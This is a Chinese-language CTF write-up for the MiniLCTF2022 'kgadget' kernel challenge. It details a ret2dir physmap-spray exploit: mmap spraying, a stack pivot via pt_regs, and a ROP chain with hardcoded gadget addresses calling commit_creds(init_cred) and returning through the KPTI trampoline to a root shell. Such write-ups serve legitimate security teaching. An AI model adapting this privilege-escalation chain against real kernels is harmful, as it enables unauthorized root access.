

# MiniLCTF2022 kgadget Writeup

## 题目简述

内核模块暴露 `/dev/kgadget`。当 `ioctl` 的命令为十进制 `114514`（`0x1bf52`）时，驱动把第三个参数当作指针解引用，并把取出的值作为内核函数指针调用。QEMU 启用了 SMEP、SMAP 与 KPTI，但启动参数含 `nokaslr`，所以内核符号和 gadget 地址固定。目标是让这次间接调用进入可控的内核态 ROP 链。

## 解题过程

SMEP/SMAP 阻止内核直接执行或访问普通用户地址，但用户页在内核的 direct mapping area 中还有一个内核虚拟地址别名。ret2dir 正是通过这个别名访问同一物理页：



攻击者不知道单个用户页对应的 direct-map 地址，便用 `mmap` 分配约 15000 个页，并把每页填成相同布局。随后选择 direct mapping area 中部的候选地址，例如：

```c
try_hit = 0xffff888000000000 + 0x7000000;
```

喷射页采用三段式结构：大量 `add rsp, ...; ret` 作为入口滑道，随后是连续 `ret`，页尾放常规提权链。驱动调用时大部分内核栈寄存器被清空，但 `pt_regs` 中仍可控制 `r9` 与 `r8`。令 `r9=pop_rsp_ret`、`r8=try_hit`，先用一个 `add rsp` gadget 落到 `pt_regs`，再由 `pop rsp; ret` 把内核栈迁到喷射页。

页尾链对当前无 KASLR 内核使用：

```c
rop[idx++] = 0xffffffff8108c6f0;  // pop rdi; ret
rop[idx++] = 0xffffffff82a6b700;  // init_cred
rop[idx++] = 0xffffffff810c92e0;  // commit_creds
rop[idx++] = 0xffffffff81c00fb0 + 27; // KPTI return trampoline
rop[idx++] = 0;                   // dummy rax
rop[idx++] = 0;                   // dummy rdi
rop[idx++] = (size_t)getRootShell;
rop[idx++] = user_cs;
rop[idx++] = user_rflags;
rop[idx++] = user_sp;
rop[idx++] = user_ss;
```

触发前保存用户态 `CS/SS/RSP/RFLAGS`，打开设备并执行命令 `0x1bf52`。`commit_creds(init_cred)` 将当前进程凭据切到 root，KPTI trampoline 安全返回 `getRootShell()`，最终启动 root Shell。以上地址只适用于附件内核；更换 `bzImage` 后必须重新取符号和 gadget。

## 方法总结

漏洞给的是“任意函数指针调用”，真正困难在于 SMEP/SMAP 下如何放置可执行链。direct mapping 让同一用户物理页拥有内核地址别名，physmap spray 则用概率命中解决别名未知的问题。稳定利用还需同时处理入口滑道、有限 `pt_regs` 控制、栈迁移和 KPTI 返回。外部 ret2dir 资料的关键结论已完整归纳在正文中，因此无需依赖外链理解利用链。
